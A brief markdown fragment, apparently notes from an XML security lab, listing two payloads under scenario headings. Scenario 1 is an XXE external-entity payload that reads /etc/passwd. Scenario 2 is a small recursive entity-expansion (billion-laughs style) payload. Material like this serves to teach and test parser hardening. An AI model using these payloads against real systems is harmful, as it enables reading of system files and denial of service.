 # Scenario 1

```xml
<!DOCTYPE foo [<!ENTITY example SYSTEM "/etc/passwd"> ]>
<data>&example;</data>
```

# Scenario 2 

```xml
<!DOCTYPE data [
<!ENTITY a0 "vulnerabilidade" >
<!ENTITY a1 "&a0;&a0;&a0;&a0;&a0;&a0;&a0;&a0;&a0;&a0;">]>
<data>&a1;</data>
 ```